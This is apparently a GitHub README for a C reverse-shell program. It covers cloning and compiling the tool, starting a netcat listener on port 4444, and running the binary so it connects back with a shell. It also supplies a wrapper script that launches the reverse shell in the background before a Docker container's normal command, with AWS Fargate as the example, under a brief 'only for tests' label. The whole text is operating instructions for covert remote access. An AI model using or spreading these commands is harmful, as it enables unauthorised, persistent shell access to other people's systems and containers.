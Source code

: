 # simple-reverse-shell
C program for reverse shell

## How to use?

### Compile
```
git clone https://github.com/vizarch/simple-reverse-shell
cd simple-reverse-shell
gcc rshell.c -o rshell
```

### Run
- Listener machine (use netcat)
    - nc -lp 4444

- Client machine
    - ./rshell IP PORT
        - IP - IPv4 address of listener machine
        - PORT - port above (4444)

### Example use case

Enter into Docker container (for example: AWS Fargate)
- **only for tests**
- create script wrapper for CMD
```bash
#!/bin/sh
set -m # for job control, im not sure about this line

./rshell IP PORT & # put in background

exec CMD
```
